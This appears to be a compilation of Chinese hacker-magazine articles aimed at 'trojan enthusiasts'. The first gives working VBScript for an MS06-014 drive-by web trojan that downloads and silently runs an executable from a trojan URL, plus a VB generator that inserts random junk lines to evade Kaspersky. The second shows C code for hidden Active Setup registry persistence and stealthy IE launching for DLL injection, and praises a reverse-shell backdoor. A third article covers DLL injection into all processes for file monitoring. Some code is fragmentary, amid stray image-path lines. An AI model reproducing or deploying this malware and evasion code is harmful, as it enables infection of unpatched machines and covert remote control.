





- 适合读者：编程爱好者、木马爱好者
- 前置知识：VB

## 制作冰卡巴免杀

## ms06014木马生成器

文／人鱼姬



最近对制作免杀网页木马产生了兴趣，于是便找来 ms06014 网页木马的代码来看，发现了一些问题，其代码如下：

```html
<html>
<script language="VBScript">
on error resume next
cl = "http://木马地址"
Set df = document.createElement("object")
df.setAttribute "classid", "clsid:BD96C556-65A3-11D0-983A-00C04FC29E36"
str="Microsoft.XMLHTTP"
Set x = df.CreateObject(str,"")
a1="Ado"
a2="db."
a3="Str"
...
```

```vb
...
a4="eam"
str1=a1&a2&a3&a4
str5=str1
set S = df.createobject(str5,"")
S.type = 1
str6="GET"
x.Open str6, dl, False
x.Send
fname1="g0ld.com"
set F=df.createobject("Scripting.FileSystemObject","")
set tmp = F.GetSpecialFolder(2)
fname1 = F.BuildPath(tmp,fname1)
S.open
S.write x.responseBody
S.savetofile fname1,2
S.close
set Q = df.createobject("Shell.Application","")
Q.ShellExecute fname1,"","","open",0
</script>
<head>
<title>人鱼姬 ms06014</title>
</head><body>
<center></center>
</body></html>
```



所示。之后我们发送个 net user 的指令，看看返回的窗口，如图10所示。



经过上面的代码编写后，现在我们终于有了自己专用的木马了，再也不必担心被杀毒软件杀掉了。另外，本文所提到的 MFC.exe、App.exe 和 Dll.dll 的源代码我都已经打包提供了，大家可以仔细地研究一下，如果有什么不明白之处，可以到黑防的官方论坛与我一起讨论。

如果用现在比较常用的 Unicode 加密会不会免杀呢？加密之后的代码如下：

```html
<HTML>
<HEAD>
<SCRIPT LANGUAGE="Javascript">
<!--
var Words = "%3Chtml%3E%0D%0A%20%3Cscript%20language%3D%22VBScript%22%3E%0D%0A..."
...（大量 URL/Unicode 编码内容）
```

```html
26a2%26a3%26a4%0D%0A...
str%3Dstr1
set df=createobject("...")
S.type="..."
str6="GET"
x.Open str6, url, False
x.Send
...
function OutWord()
  var NewWords;
  NewWords = unescape(Words);
  document.write(NewWords);
}
OutWord();
</SCRIPT>
</HEAD>
<BODY>
</BODY>
</HTML>
```

图2

error resume next，意思是说如果某个语句执行错误，就不报错，继续往下执行下一句。那么，我们是不是可以利用这种情况做些什么呢？基于此，我构思了一个永久卡巴免杀的 ms06014 网页木马生成器，用 VB 语言实现。具体的原理就是随机生成很多字符串，把它们夹杂在每行 VBScript 之间，这样就可以迷惑杀毒软件了。因为随机生成的字符串执行起来肯定会出错，所以就会根据容错语句执行下一句，而不会影响 VBScript 的执行。实际上这种网页木马生成器在概念上是比较好的，因为其中夹杂的字符串是随机生成的，每次生成的网页木马都不一样，卡巴就没法提取具体的特征码了，所以我们可以认为每次生成的网页木马都是一个免杀的个人版本。

```vb
Private Sub Command1_Click()
  a = FreeFile()
  Open "\\renyuji.htm" For Output As #a
  Print #a, "<html>"
  Print #a, "<script language=""VBScript"">"
  Print #a, "on error resume next"
  Call suiji(a)
  Print #a, "dl = """" & Text2.Text & """""
  Call suiji(a)
  Print #a, "Set df = document.createElement(""Object"")"
  Call suiji(a)
  Print #a, "df.setAttribute ""classid"", ""clsid:BD96C556-65A3-11D0-983A-00C04FC29E36"""
  ...
End Sub
```

用卡巴扫描一下，如图1所示，表面上是免杀了，如果双击打开就会出现如图2所示的情况。看来 Unicode 加密不可行，并不能完全免杀。

图1

```vb
Print #a, "str1=a1&a2&a3&a4"
Call suiji(a)
Print #a, "str5=str1"
Call suiji(a)
Print #a, "set S = df.createobject(str5,"""")"
Call suiji(a)
Print #a, "S.type = 1"
Call suiji(a)
Print #a, "str6=""GET"""
Call suiji(a)
Print #a, "x.Open str6, dl, False"
Call suiji(a)
Print #a, "x.Send"
...
Print #a, "Q.ShellExecute fname1,"""","""",""open"",0"
Call suiji(a)
Print #a, "</script>"
Print #a, "<head>"
Print #a, "<title>人鱼姬ms06014</title>"
Print #a, "</head><body>"
Print #a, "<center></center>"
Print #a, "</body></html>"
Close #a
MsgBox "已经在当前目录下生成 renyuji.htm"
End Sub

Public Sub suiji(a)
Dim b, e, g As Integer
Dim d As String
e = Text1.Text
g = Text3.Text
For f = 1 To e
    d = ""
    For c = 1 To g
        Randomize
        b = Fix(65 + Rnd * 58)
        ...
```

```vb
While (90 < b And b < 97)
    Randomize
    b = Fix(65 + Rnd * 58)
Wend

d = d & Chr$(b)
Next c
Print #a, d
Next f
End Sub
```

编写完成后，最后的程序界面如图3所示。输入木马网址后，点击“生成”按钮，生成的网页木马代码如下所示：

图3

```html
<html>
<script language="VBScript">
on error resume next
...（代码省略）...
set Q = df.createobject("Shell.Application","")
Q.ShellExecute fname1,"","","open",0
</script>
<head>
<title>人鱼姬ms06014</title>
</head><body>
<center></center>
</body></html>
```

经过测试，在装有卡巴斯基而且没有打 ms06014 补丁的机器上可以工作正常。遗憾的是，这种方法加密的网页木马依然会被诺顿查杀。大家可以在此基础上自行加密以进一步免杀。另外，软件中的干扰代码位数和行数都是可设置的，可根据个人需要选择。实际上，这种免杀方法的运用范围还是很广泛的，希望大家能够很好地掌握。

适合读者：编程爱好者、木马爱好者

前置知识：VC

#### 编程实现木马的 ActiveX 启动和注入 IE 的启动方式

文／荔明奇（xgym）

木马的启动方式有很多种，现在比较流行的就是注册为系统服务启动（只适合 Windows 2000 以上的系统），或者以驱动的方式启动。不过，最近以 ActiveX 方式启动又比较流行了，因为它适合 Windows 9x 或 2000 以上的机器，而且杀毒软件（比如瑞星、江民、金山等）基本不会去监视这种启动方式，比较隐蔽。以 ActiveX 方式启动的木马国外的比较多，于是就到网上查找相关代码，发现了 RECUB。

其实 RECUB 是一个 Windows 平台的远程管理工具，其源代码已经为我们写得很清楚了，下面简要介绍一下 RECUB。它能对 Windows XP/2000/2003 的反向连接 Shell 进行 RC4 加密，可以作为 IE 浏览器的实例启动并注入代码来绕过防火墙，通过加密的 ICMP 请求来激活；没有监听端口；没有可见进程，以注入 Explorer.exe 的方式启动和退出；可以通过 ActiveX 启动，退出 Shell 的时候没有事件日志；可以使用 nc 得到远程 Shell；EXE 文件只有 5.39K 大小。怎么样，挺强的吧？下面我们就看一下它的部分代码，具体如下：

```c
RegCreateKey(HKEY_LOCAL_MACHINE, (LPCTSTR)regkey, &childkey);
// 把我们获取到的当前的路径复制给主键
RegSetValueEx(childkey, (LPCTSTR)"StubPath", 0, REG_SZ, (const BYTE*)(LPCTSTR)pathexe, lstrlen(pathexe));
// 关闭HKEY的对象
RegCloseKey(childkey);
```

从以上的代码我们可以清晰地看到，ActiveX 启动其实非常简单，仅仅是在 HKEY_LOCAL_MACHINE 下的 Software\\Microsoft\\Active Setup\\Installed Components\\ 中注册一条信息就可以了。这条信息的键类似 {36f8ec70-c29a-11d1-b5c7-0000f8051515} 就可以。其实，我们可以随便更改这些数字，只要不重复就可以了，如图1所示，而且我们还可以在这个键的下面新增一些子键和值（我们服务端的绝对地址）。

图1

在上面的代码中有一个关键代码 RegDeleteKey(HKEY_CURRENT_USER, (LPCTSTR)regkey)，其作用是每次启动的时候清理 HKEY_CURRENT_USER 里面的信息。因为每当我们启动服务端的时候，系统都会自动在 HKEY_CURRENT_USER 中注册一些 HKEY_LOCAL_MACHINE 中的信息，我们必须在程序中删除这些，否则我们的服务端也只能有一次的自启动机会。

```c
// Active启动原理与代码
// 初始化定义主键值
char regkey[MAX_PATH];
// 定义服务端当前路径
char pathexe[MAX_PATH];
// 子键的定义与初始化
HKEY childkey = 0;
// 获取我们运行的服务端的当前路径
GetModuleFileName(NULL, pathexe, MAX_PATH);
// 注册主键
wsprintf(regkey, "%s%s", "Software\\Microsoft\\Active Setup\\Installed Components\\", REGKEY);
// 删除HKEY_CURRENT_USER相关的启动信息
RegDeleteKey(HKEY_CURRENT_USER, (LPCTSTR)regkey);
// 创建ActiveX启动信息，注册HKEY_LOCAL_MACHINE ...
```

根据上面的介绍，这里我就简单地写一段测试代码以供大家参考。启动 VC，新建一个工程名称为 test 的 Win32 Application，默认为一个简单的 Win32 程序，并假定我们的服务端是在系统目录 system32 中的 iexplore.exe，其代码如下：

```c
#include "stdafx.h"
int APIENTRY WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow)
{
    // TODO: Place code here.
    HKEY hKey;
    TCHAR svExeFile[256] = "%SystemRoot%\\system32\\iexplore.exe";

    RegCreateKey(HKEY_LOCAL_MACHINE,
      "SOFTWARE\\Microsoft\\Active Setup\\Installed Components\\{I1912RB03-AB-B70-7-11d2-9CBD-0000F57AH6-9E2121BHJLK}",
      &hKey);

    RegSetValue(hKey, NULL, REG_SZ, "系统设置", strlen("系统设置"));
    RegSetValueEx(hKey, "stubpath", 0, REG_EXPAND_SZ,
      (BYTE*)svExeFile, strlen(svExeFile));

    RegCloseKey(hKey);
    return 0;
}
```

这个最简单的程序就实现了在 HKEY_LOCAL_MACHINE 中注册 ActiveX 的过程。在程序退出的时候，我们可以编写下面的代码来清除 HKEY_CURRENT_USER 中的相关信息，以达到我们的程序启动的目的。

```c
CreateThread(NULL, NULL, del, NULL, NULL, NULL);
// ActiveX
DWORD WINAPI del(LPVOID lpParam)
{
    RegDeleteKey(HKEY_CURRENT_USER,
      "Software\\Microsoft\\Active Setup\\Installed Components\\{I1912RB03-AB-B70-7-11d2-9CBD-0000F57AH6-9E2121BHJLK}");
    return TRUE;
}
```

下面我们再来看看 DLL 注入 IE 的木马启动 IE 的方式。网上的开源代码很多，不过 80% 的注入文件都是 explorer.exe，这个虽说比较简单，但很稳定。说它简单是因为它默认总是启动的，就不需要考虑它是否存在的问题。注入 IE 时，我们首先需要判断是否有 iexplore.exe 的进程，如果没有，我们就需要找到 iexplore.exe 所在的目录（一般都在 C:\\Program Files\\Internet Explorer 中，不过还是通过程序搜索最好，毕竟有好多网管把系统装在其他的盘符之中）。

记得自己刚刚写 DLL 程序的时候，启动 IE 的方式使用下面的代码：

```c
WinExec("C:\\Program Files\\Internet Explorer\\iexplore.exe -nohome", SW_HIDE);
```

也就是 IE 的空启动。用这种方法实现，虽然 IE 启动了，而且也挺隐蔽，但启动时就占用 3000K 的内存，这个是我们所不能接受的，我们希望程序启动能尽可能少地占用内存。后来在国外的一个站点上，我发现可以用下面的一种方法来启动，占用内存极小，其代码如下：

```c
// 进程 information
PROCESS_INFORMATION pi = {0};
// 启动信息
STARTUPINFO si = {0};
// 存储信息
ZeroMemory(&si, sizeof(si));
// 信息的大小
si.cb = sizeof(si);
// 相关信息
si.dwFlags = STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES;
// 隐藏启动
si.wShowWindow = SW_HIDE;
// 隐藏
pi.hProcess = SW_HIDE;
// 启动的主函数
CreateProcess(
    NULL,
    "C:\\Program Files\\Internet Explorer\\iexplore.exe",
    NULL,
    NULL,
    0,
    CREATE_SUSPENDED,
    NULL,
    NULL,
    &si,
    &pi
);
```

最后我想说一下 VC 编译的优化处理问题。一是使用 Release 版而不用 Debug 版编译，因为使用 Debug 版编译会生成许多垃圾信息。使用 Release 版编译的具体方法是在“Build（编译）-> Configuration（配置）”中，将“Win32 debug”移去，然后再次编译，就可以发现文件已经小了很多。二是设置自己的入口点函数。C 或 C++ 程序默认的入口函数是 main() 或 WinMain()，但我们现在不用 main 和 WinMain，因为这些都不是直接的入口点。编译器在产生 exe 文件的时候，将为我们生成真正的入口点。下面我们来定义自己的入口函数，具体方法是把 main 或 WinMain 改成其他的名字（如 MyFun），打开 Project（工程）-> Settings（设置）选项，选中 Link 选项卡，在 Category（分类）下拉列表中选 Output，在 Entry-Point symbol（输入项）中输入我们刚才定义的入口函数（MyFun），在源程序中也要做相应修改。三是优化最小大小；四是输出，入口点改为 MyDll（随便改啦）；五是连接：/align:40。有了这些，基本上就能把我们的程序体积减少很多，但每次这样去设置，在编程的时候会很不方便，我们干脆直接写一个头文件（my.h），直接调用就少了很多麻烦。下面是 my.h 的代码。

```c
// Version 1.00
// xgym
// May 20th, 1999
// xgymn@163.com
#ifdef NDEBUG
#pragma optimize("gsy", on)
#pragma comment(linker, "/RELEASE")
#ifdef _MERGE_RDATA_
#pragma comment(linker, "/merge:rdata=.data")
#endif
#pragma comment(linker, "/merge:text=.data")
#pragma comment(linker, "/merge:reloc=.data")
#if _MSC_VER >= 1000
#endif
#endif
#pragma comment(linker, "/MERGE:.rdata=.data")
#pragma comment(linker, "/MERGE:.text=.data")
#pragma comment(lib, "msvcrt.lib")
#if (_MSC_VER < 1300)
#pragma comment(linker, "/IGNORE:4078")
#pragma comment(linker, "/OPT:NOWIN98")
#endif
#define WIN32_LEAN_AND_MEAN
```

有了这个头文件，我们在编写服务端的时候，为了减少体积，直接 `#include "my.h"` 就可以了，这样就少了很多步骤，而效果却是一样的。

适合读者：编程爱好者  
前置知识：VC

#### 文件监控——内核过滤

文/图 梁念

参加工作快一年了，虽然不是做程序员，但是对程序却有了一定的认识，而且平时也研究一些程序，下面就把自己的一些心得发表出来。我所在公司的软件产品结构是 C/S + B/S，客户端和服务器端用的是 VC6.0，测试工具为 DebugView，测试用的 API 是 OutputDebugString(CString tmp)。现在大部分系统软件采用的技术都是 Hook API，当然，如果想把功能做到极致，应该采用系统驱动来做，比如注册表监控、杀流氓软件、文件监控等，但是要把它做成产品的话，就不能花太多时间（采用系统驱动实现动不动就蓝屏，调试很费劲）。我有一个同事在做注册表监控时，调试 Windows 2003 操作系统就搞了一个月，后来发现是 PsGetOSVersion 得到的 Windows 2003 版本不对，所以大部分情况都是在用户态下完成底层功能，这时 Hook API 是最好的选择。

##### 程序构架

下面向大家介绍一下用户态文件监控的实现。此程序的结构包括 EDPloader.exe、ProcMon.dll 和 CreateFileMon.dll。其逻辑为 EDPloader.exe 启动 ProcMon.dll 和 CreateFileMon.dll，把 ProcMon.dll 和 CreateFileMon.dll 插入除了 PID=0 和 4 的所有进程，同时监控两个 API——CreateFileA 和 CreateProcessW。监控 CreateProcessW 完成的功能为：发现新的进程执行的时候，插入 ProcMon.dll 和 CreateFileMon.dll，保证所有新创建的进程都有 ProcMon.dll 和 CreateFileMon.dll，这样不管哪个进程空间调用 CreateFileA，都会被监视到，然后对它进行记录。

现在，程序的结构大家都清楚了，程序用的技术也晓得了，剩下的就是如何实现了。在这里我用的是微软的 Hook API 库 detours.lib，虽然应用的是别人的东西，但是我们也要了解它最基本的原理是什么。实际上，Win32 API 是由一组动态链接库实现的；使用动态链接库是为了尽可能共享内存。由于动态链接库是动态装入的，所以 Win32 API 函数的入口点也是动态确定的。当 Windows 应用程序在调用 Win32 API 的时候，并不是直接调用某个函数地址，而是调用某处所存储的一个动态确定的函数地址来实现间接调用的，该处被命名为 Import Address Table（简称 IAT）。知道了这一点，接下来要做的就是想办法找到这个存储单元的位置，然后……将其内容替换为接管函数的入口地址，不过得事先保存原函数的入口地址，以便执行了接管函数的代码后，可以在适当的地方以适当的方式再调用原函数。最后退出的时候，或是不想再钩着它的时候，再将其恢复为原函数的入口地址。这就是 Hook Win32 API 的基本步骤。

##### 代码实现

### 1) ProcMon.dll

首先建立一个 Win32 动态链接库，使用向导实现，选择 3，如图 1 所示。建好后，删除 ProcMon.cpp 文件中的以下内容：

```cpp
#include "ProcMon.h"
// This is an example of an exported variable
PROCMON_API int nProcMon=0;
// This is an example of an exported function.
PROCMON_API int fnProcMon(void)
{
    return 42;
}

// This is the constructor of a class that has been exported.
// see ProcMon.h for the class definition
CProcMon::CProcMon()
{
    return;
}
```

再删除 ProcMon.h 文件，这样，一个干净的 Win32 DLL 就产生了。然后在 VC 新建的 ProcMon 文件夹中，拷入 detours.lib 和 detours.h。大家要记住，一定要用 1.5 版本的。准备工作做完后，我们来解析代码。

```cpp
bool InjectDll(char *DllFullPath, DWORD Pid)
BOOL EnableDebugPriv(const char *Name)
BOOL WINAPI DetourCreateProcessW(LPCWSTR lpApplicationName, LPWSTR lpCommandLine,
    LPSECURITY_ATTRIBUTES lpProcessAttributes,
    LPSECURITY_ATTRIBUTES lpThreadAttributes,
    BOOL bInheritHandles,
    DWORD dwCreationFlags,
    LPVOID lpEnvironment,
    LPCWSTR lpCurrentDirectory,
    LPSTARTUPINFOW lpStartupInfo,
    LPPROCESS_INFORMATION lpProcessInformation)
BOOL APIENTRY DllMain(HANDLE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
```

```cpp
LPSECURITY_ATTRIBUTES lpProcessAttributes,
LPSECURITY_ATTRIBUTES lpThreadAttributes, BOOL bInheritHandles,
DWORD dwCreationFlags, LPVOID lpEnvironment,
LPCWSTR lpCurrentDirectory,
LPSTARTUPINFOW lpStartupInfo,
LPPROCESS_INFORMATION lpProcessInformation)

BOOL APIENTRY DllMain(HANDLE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
```

这里一共有 4 个函数，DetourCreateProcessW 函数就是我们要 Hook 的 CreateProcessW 的处理过程。InjectDll 是用来远程进程插入用的，EnableDebugPriv 是在调用 InjectDll 的时候提权用的，用于提升自己为 TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY。下面我们主要讲讲 DetourCreateProcessW 的实现。

```cpp
// 这里最重要的是 Unicode 编程。看过 Windows 核心编程的人都知道，系统底层处理都是 Unicode 编码
LPCWSTR record_lpProcessName;
record_lpProcessName = lpApplicationName;

// 字符串处理，得到新创建进程不带路径的名称
OutputDebugString((const char *)record_lpProcessName);
const unsigned short* b = wcsrchr(record_lpProcessName,'\\');
b = b + 1;

// 列举进程，得到新创建进程的 pid 号
HANDLE hkernel32; // 被注入进程的句柄
HANDLE hSnap;
PROCESSENTRY32W pe;
BOOL bNext;

pe.dwSize = sizeof(pe);
hSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
bNext = Process32FirstW(hSnap, &pe);
while (bNext)
{
    if (!wcsicmp(pe.szExeFile, b))
    {
        hkernel32 = OpenProcess(PROCESS_CREATE_THREAD|PROCESS_VM_WRITE|PROCESS_VM_OPERATION, ... , pe.th32ProcessID);
        break;
    }
    bNext = Process32NextW(hSnap, &pe);
}
CloseHandle(hSnap);

// 得到要插入的 CreateFileMon.dll 和 ProcMon.dll 的路径
char sys_path[MAX_PATH] = {0};
char sys_path1[MAX_PATH] = {0};

GetSystemDirectory(sys_path, MAX_PATH);
strcat(sys_path, "\\CreateFileMon.dll");

GetSystemDirectory(sys_path1, MAX_PATH);
strcat(sys_path1, "\\ProcMon.dll");

InjectDll(sys_path, pe.th32ProcessID);
InjectDll(sys_path1, pe.th32ProcessID);

// 输出调试信息
OutputDebugString((const char *)pe.th32ProcessID);
OutputDebugString(sys_path);

// 原封不动地把 Hook CreateProcessW 的参数传递
BOOL ret;
ret = Real_CreateProcessW(lpApplicationName,
 lpCommandLine, lpProcessAttributes, lpThreadAttributes,
 bInheritHandles, dwCreationFlags, lpEnvironment,
 lpCurrentDirectory, lpStartupInfo, lpProcessInformation);
return ret;
```

```cpp
int nResponse = dlg.DoModal();
if (nResponse == IDOK)
{
    // TODO: Place code here to handle when the dialog is
    // dismissed with OK
}
else if (nResponse == IDCANCEL)
{
    // TODO: Place code here to handle when the dialog is
    // dismissed with Cancel
}

/* Since the dialog has been closed, return FALSE so that we exit
   the application, rather than start the application's message pump. */
```

### 2) EDPLoader.exe

EDPLoader.exe 主要用于释放 ProcMon.dll 和 CreateFileMon.dll 到 system32 目录下，然后再把它们远程注入除了 PID=0 和 4 的所有进程。本来完成第二个目标用 Win32 Console 就能搞定，但是要释放资源就只能用 MFC 做了，后来我想了一个两全其美的方法，方法如下。

首先创建一个基于对话框的 MFC 程序，把 EDPLoaderDlg.h 和 EDPLoaderDlg.cpp 删除，注释掉 EDPLoader.cpp 文件中的 `#include "EDPLoaderDlg.h"` 和下面的代码。

经过这样处理后，其效果如图 2、图 3 和图 4 所示。编译通过后，就可以得到带资源的 Win32 程序了，剩下的工作就是释放资源了，其代码如下所示。

```cpp
/*
AfxEnableControlContainer();

// Standard initialization
// If you are not using these features and wish to reduce the size
// of your final executable, you should remove from the following
// the specific initialization routines you do not need.

#ifdef _AFXDLL
    Enable3dControls();
#else
    Enable3dControlsStatic();
#endif

CEDPLoaderDlg dlg;
m_pMainWnd = &dlg;
*/
```

```cpp
// (1) release resource
char system_path[MAX_PATH], system_path1[MAX_PATH];

GetSystemDirectory(system_path, MAX_PATH);
GetSystemDirectory(system_path1, MAX_PATH);
strcat(system_path, "\\ProcMon.dll");
strcat(system_path1, "\\CreateFileMon.dll");

HRSRC hSrc = FindResource(NULL, MAKEINTRESOURCE(IDR_DLL4), "DLL");
if (hSrc == NULL) return false;
OutputDebugString("找到资源");
OutputDebugString(system_path1);
HGLOBAL hGlobal = LoadResource(NULL, hSrc);
if (hGlobal == NULL) return false;
LPVOID lp = LockResource(hGlobal);

DWORD dwSize = SizeofResource(NULL, hSrc);
CFile file;
if (file.Open(system_path1, CFile::modeCreate|CFile::modeWrite)) {
    file.Write(lp, dwSize);
    file.Close();
}
OutputDebugString("生成文件");
OutputDebugString(system_path1);

FreeResource(hGlobal);
HRSRC hSrc1 = FindResource(NULL, MAKEINTRESOURCE(IDR_DLL1), "DLL");
if (hSrc1 == NULL) return false;
OutputDebugString("找到资源");
OutputDebugString(system_path);

HGLOBAL hGlobal1 = LoadResource(NULL, hSrc1);
if (hGlobal1 == NULL) return false;
LPVOID lp1 = LockResource(hGlobal1);
DWORD dwSize1 = SizeofResource(NULL, hSrc1);
CFile file1;
if (file1.Open(system_path1, CFile::modeCreate|CFile::modeWrite)) {
    file1.Write(lp1, dwSize1);
    file1.Close();
}
OutputDebugString("生成文件");
OutputDebugString(system_path1);
FreeResource(hGlobal1);
```

```cpp
OutputDebugString(pe.szExeFile);
}
bNext = Process32Next(hSnap, &pe);
}
CloseHandle(hSnap);
```

经上面的代码编译后，测试结果如图 5 和图 6 所示。

### 3) CreateFileMon.dll

